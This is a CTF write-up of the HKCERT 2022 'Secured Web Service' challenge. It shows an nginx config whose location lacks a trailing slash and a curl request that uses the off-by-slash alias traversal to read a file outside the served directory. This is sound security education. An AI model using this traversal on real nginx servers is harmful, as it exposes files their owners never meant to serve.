 # Secured Web Service

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

- Challenge difficulty: ★★☆☆☆

## Background

Find the flag in `/var/www/html/flag.txt`

Web: [http://chal.hkcert22.pwnable.hk:28308/flag/](http://chal.hkcert22.pwnable.hk:28308/flag/)

Attachment: [secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip](https://file.hkcert22.pwnable.hk/secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112044224.png)

## Find the flag

**In this challenge, we can download an attachment:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# unzip secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip 
Archive:  secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip
  inflating: nginx.conf
```

**`nginx.conf`:**
```
worker_processes auto;
error_log stderr warn;
pid /run/nginx.pid;

events {
    worker_connections 1024;
}

http {
    include mime.types;
    default_type application/octet-stream;

    # Define custom log format to include reponse times
    log_format main_timed '$remote_addr - $remote_user [$time_local] "$request" '
                          '$status $body_bytes_sent "$http_referer" '
                          '"$http_user_agent" "$http_x_forwarded_for" '
                          '$request_time $upstream_response_time $pipe $upstream_cache_status';

    access_log /dev/stdout main_timed;
    error_log /dev/stderr notice;

    keepalive_timeout 65;

    # Write temporary files to /tmp so they can be created as a non-privileged user
    client_body_temp_path /tmp/client_temp;
    proxy_temp_path /tmp/proxy_temp_path;
    fastcgi_temp_path /tmp/fastcgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    scgi_temp_path /tmp/scgi_temp;

    # Default server definition
    server {
        listen [::]:8080 default_server;
        listen 8080 default_server;
        server_name _;

        sendfile off;
        tcp_nodelay on;
        absolute_redirect off;


        location /flag {
            # First attempt to serve request as file, then
            # as directory, then fall back to index.php
            #try_files $uri $uri/ /index.php?q=$uri&$args;
            alias /var/www/html/flag/;
        }

    }
}
```

This web server has 1 location: `/flag`, and **it's missing the trailling slash**!

**`/flag`:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag' 
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.23.2</center>
</body>
</html>
                                                                                                           
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag/'
<html>
<head>
  <title>Slash</title>
</head>

<body>
  <p>Hello World</p>
  <script>
    location.replace("https://www.youtube.com/watch?v=RQ76vkzmolQ&t=0s")
  </script>
</body>

</html>
```

**When I reach to `/flag/`, it has a JavaScript that redirects me to a rickroll YouTube video.**

**Also, in the `<title>` tag, it's `Slash`, which is a hint of missing the trailling slash!**

**After some goolging, I found this [Tweet](https://twitter.com/x0rz/status/1052899891624710145?lang=en):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112045704.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112045711.png)

**In Hack.lu 2018, a researcher [Orange Tsai](https://twitter.com/orange_8361) from TaiWan discovered a Nginx off-by-slash vulnerability!**

**Since we know the flag is in `/var/www/html/flag.txt` according to the challenge's description, we can just `curl` the flag!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag../flag.txt'   
hkcert22{y0u_4re_4s_k1ng_4s_0r4ng3_g0_bug_hunt1ng}
```

We got the flag!

# Conclusion

What we've learned:

1. Nginx Off-By-Slash Vulnerability